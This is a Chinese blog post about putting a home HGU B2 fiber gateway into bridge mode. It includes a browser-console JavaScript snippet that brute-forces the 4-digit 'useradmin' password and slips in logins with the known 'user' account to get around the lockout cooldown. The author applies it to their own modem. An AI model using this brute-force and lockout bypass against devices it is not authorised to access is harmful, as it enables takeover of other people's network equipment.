


最近家里网络有点不稳定，电脑ping个手机能上200ms，在这之前没看过家里的网络拓扑。路由器接在墙上，家里的台式直接接在光猫上，那估计是光猫负责PPPoE拨号了，心想改成桥接试试，让路由器负责拨号可能性能会好点。

针对`HGU B2型家庭网关`。B1参考这两篇文章-->  [文章1](https://zhuanlan.zhihu.com/p/479280294)，[文章2](https://blog.csdn.net/u013782446/article/details/128642923)

#### 获取步骤

1. 光猫有一个`user`账户，密码一般是`12345678`（我google的），如果你知道自己的光猫密码就省略这一步，不知道的话先试试，如果实在不知道，可以试试打电话问运营商。一般输错三次就会强制冷却一分钟，所以要绕过多次试错的冷却机制，没有`user`账户密码的话，后面就无法进行。

2. 浏览器输入光猫后台地址，一般是`192.168.1.1`，不用登录，打开开发者模式，在控制台粘贴以下代码，注意`var web_Password`要改成能成功登录的`user`账户的密码

```javascript
var issucc = 0;
for(i=0; i<10000 && !issucc; i++) {
  var web_Username = 'useradmin';
  var web_Password = (Array(4).join(0)+i).slice(-4);
  var obj = new Object;
  obj.web_login_name = web_Username;
  obj.web_login_password = b64_md5(web_Password);
  var cgipath = "/boaform/";
  var nonedatav = Math.random();
  sendRequest(cgipath+"web_login_exe", obj, function(data) {
    if(data == "success_telecomadmin") {
      alert(web_Password);
      issucc = 1;
    } else {
        console.log(data+": "+web_Password);
    }
  });
  var web_Username = 'user';
  var web_Password = '你的user账户的密码';
  var obj = new Object;
  obj.web_login_name = web_Username;
  obj.web_login_password = b64_md5(web_Password);
  var cgipath = "/boaform/";
  var nonedatav = Math.random();
  sendRequest(cgipath+"web_login_exe", obj, function(data) {
	console.log("skip ban: "+data);
  });
}
```

如图



然后回车等待出现弹窗，即`useradmin`密码，类似于这样



然后就可以输入密码进入管理员后台了。